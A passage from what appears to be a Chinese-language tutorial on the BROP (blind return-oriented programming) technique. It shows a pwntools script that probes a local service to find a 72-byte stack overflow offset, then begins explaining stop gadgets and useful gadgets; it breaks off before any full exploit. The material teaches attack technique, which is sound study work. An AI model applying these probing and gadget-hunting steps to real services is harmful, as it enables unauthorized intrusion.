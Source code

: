 首先我们试出函数的返回地址，我们每次添加一个字节的数据进去，当正常写入数据时，程序会正常返回"No password, no game"，当我们写入的数据溢出覆盖到返回地址，程序就会报错退出，我们利用recv函数就会接收不到数据，借助这一点，我们可以确定函数的返回地址。

使用探测脚本

```python
# -*- coding:utf-8 -*-
#from __future__ import print_function
from pwn import *
context.log_level = "DEBUG"
def get_offset():
    i = 1
    while 1:
        try:
            p = remote("127.0.0.1",9999)
            p.recvline("WelCome my friend,Do you know password?")
            payload = 'a'*i
            p.sendline(payload)
            p.recvline("No")
            p.close()
            log.info("%d is not enough",i)
            i = i+1
        except EOFError:
            p.close()
            log.info("buf_size:%d",i)
            return i

if __name__ == "__main__":
    buf_size = get_offset()
```

![image-20220802152424349](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220802152424349.png)

我们获取到当我们输入数据大于72时，会覆盖到函数返回地址导致程序异常退出，我们的recvline函数接收不到数据就会触发异常。因此我们需要先填充72个字符。

#### 找到stop gadget

我们知道返回地址位置的时候，就相当于可以控制RIP寄存器了，但是由于我们没有这个二进制文件、也没有libc版本，只能靠盲打改变返回地址的值，但是一般情况我们盲打输入的地址会把程序搞崩溃，返回地址指到不可执行的地址或者一些无效的指令，这种地址我们可以叫做`crash gadget`或者是`bad gadget`，这种返回地址会让我们断开程序的连接。

我们的目标是寻找到`"pop rdi ret"`等等`有用的gadget`也叫`useful gadget`

为了让我们判断是否找到`useful gadget`，我们需要找到一个地址（stop gadget），执行了stop gadget时，就会让程序挂起(等待输入/陷入循环等等)，但是与程序的连接不会断开。stop gadget能够将stop gadget之前的指令执行的结果通过连接顺利反馈给我们，之后连接也不会断开。
